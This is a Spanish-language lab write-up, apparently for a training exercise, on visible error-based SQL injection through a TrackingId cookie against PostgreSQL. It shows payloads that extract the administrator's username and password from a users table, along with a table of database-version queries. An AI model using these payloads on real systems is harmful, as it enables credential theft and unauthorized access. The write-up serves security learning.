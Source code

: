 ![[Pasted image 20250726161641.png]]

Vamos a analizar la consulta con BurpSuite, para poder modificar el campo inyectable:

![[Pasted image 20250726162006.png]]
![[Pasted image 20250726162035.png]]

Vamos a colocar una comilla en el campo `TrackingId`, para ver como reacciona la web.

![[Pasted image 20250726162151.png]]
![[Pasted image 20250726162241.png]]

Vemos que el error que la web nos muestra un error, el él podemos observar la consulta que realiza a la base de datos.

Consulta original `SQL SELECT * FROM tracking WHERE id = 'fH5hX0bJu9VeRovc'`

Por lo tanto, entendemos que cuando la consulta que hagamos no sea exitosa, la web mostrará el error de la BBDD. Vamos a probar concatenar una consulta tipo select `'||(SELECT '')-- -`

![[Pasted image 20250726163412.png]]
![[Pasted image 20250726163433.png]]

Vemos que le ha gustado la consulta que le hemos enviado.
### Conocer que base de datos corre por detrás
****
## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|            |                                                                                                                            |
| ---------- | -------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT banner FROM v$version`                                                            `SELECT version FROM v$instance` |
| Microsoft  | `SELECT @@version`                                                                                                         |
| PostgreSQL | `SELECT version()`                                                                                                         |
| MySQL      | `SELECT @@version`                                                                                                         |
Teniendo en cuenta esta tabla, veremos que tipo de gestor de BBBDD se está utilizando por detrás, según si se muestra o no el error. Para ello, haremo uso de la siguiente consulta para averiguar la version `'||(SELECT version())`, en caso que devuelva un estado exitoso, el gestor será PostgreSQL.

![[Pasted image 20250726164536.png]]
![[Pasted image 20250726163433.png]]

Normalmente, las consultas suelen tener un límite de caracteres, por lo tanto vamos a borrar la cookie de `TrackingId` y vamos a colocar una comilla para cerrar esa consulta, se vería de esta forma `TrackingId='<SQLI>` para poder ganar más caracteres a la hora de escribir nuestra consulta.
### Conocer la existencia del usuario administrador
****
Una vez sabemos que la tabla `users` existe. Debemos saber si el usuario `administrator` es válido. Para ello, haremos uso de la siguiente consulta.

Consulta para verificar la exitencia de un usuario visible error-based PostgreSQL: `' AND 1=CAST((SELECT username FROM users LIMIT 1) AS INT)-- -`

![[Pasted image 20250726172334.png]]
![[Pasted image 20250726172356.png]]

Vemos que la base de datos nos ha devuelto el usuario `administrator` ,por lo tanto existe.

### Conocer la contraseña de administrator
****
Para ello haremos uso de la siguiente consulta.

Consulta para conocer la contraseña de un usuario visible error-based PostgreSQL: `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS INT)-- -`

![[Pasted image 20250726173006.png]]
![[Pasted image 20250726173035.png]]

### Nos logueamos como el usuario administrator
****
![[Pasted image 20250726173241.png]]
![[Pasted image 20250726173336.png]]

